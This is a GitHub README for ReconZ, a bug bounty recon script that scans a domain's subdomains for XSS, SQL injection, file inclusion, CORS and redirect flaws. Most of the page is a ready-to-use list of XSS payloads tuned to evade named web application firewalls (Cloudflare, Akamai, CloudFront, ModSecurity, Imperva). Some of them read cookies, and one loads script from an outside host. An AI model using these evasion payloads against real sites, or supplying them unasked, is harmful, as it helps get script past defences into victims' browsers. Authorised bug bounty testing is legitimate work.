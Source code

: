 Bug bounty automatization code to search for: 𝐚𝐥𝐢𝐯𝐞 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐎𝐩𝐞𝐧𝐫𝐞𝐝𝐢𝐫𝐞𝐜𝐭, 𝐇𝐨𝐬𝐭 𝐇𝐞𝐚𝐝𝐞𝐫 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧, 𝐂𝐨𝐫𝐬 𝐄𝐱𝐩𝐥𝐨𝐢𝐭𝐬, 𝐩𝐚𝐫𝐚𝐦𝐞𝐭𝐞𝐫𝐬 𝐨𝐧 𝐚𝐥𝐥 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐂𝐫𝐨𝐬𝐬 𝐒𝐢𝐭𝐞 𝐒𝐜𝐫𝐢𝐩𝐭𝐢𝐧𝐠, 𝐑𝐞𝐦𝐨𝐭𝐞 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐋𝐨𝐜𝐚𝐥 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐒𝐐𝐋 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧 (𝐌𝐚𝐧𝐲 𝐦𝐨𝐫𝐞 𝐬𝐨𝐨𝐧)

# INSTALLATION

```bash

git clone https://github.com/Anhedoniczz/ReconZ

cd Reconz

chmod +x *.sh
chmod +x Resources/*.sh
./installer.sh

```
# USAGE 

```
usage: ./recon.sh -u domain                     
```


# EXAMPLE
```
./recon.sh -u example.com
```


# FOR ADVANCED XSS 
The tool uses a basic XSS payload to exploit the websites. If you want to do something more advanced, like bypass waf, or use any other payload, you can change line 58.
Some payloads to bypass specific wafs: 


# Paylaods to bypass Cloudflare waf 
```
<svg/onload=window["al"+"ert"]1337>

<Img Src=OnXSS OnError=confirm(1337)>

<Svg Only=1 OnLoad=confirm(document.domain)>

<svg onload=alert&#0000000040document.cookie)>

<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

```

# Paylaods to bypass Akamai waf 
```
';k='e'%0Atop['al'+k+'rt'](1)//

'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>

```

# Paylaods to bypass Cloudfront waf 
```
">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//'>

```

# Paylaods to bypass MOD SECURITY waf 
```
<svg onload='new Function["Y000!"].find(al\u0065rt)'>
```

# Paylaods to bypass Imperva waf 
```
<Img Src=//X55.is OnLoad%0C=import(Src)>

<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">
```

XSS Payloads are from Lostsec Channel <3
You can check the waf type using wappalyzer and replace xss payloads based on that.

Also feel free to change SQLI payloads in ErrorSQLPayloads.txt, just add the list of your choice and it will work perfectly fine.


Creds to authors of used tools:

https://github.com/gotr00t0day

https://github.com/projectdiscovery/

https://github.com/felipemelchior

https://github.com/s0md3v/Corsy

https://github.com/lc/

https://github.com/tomnomnom/

https://github.com/rix4uni
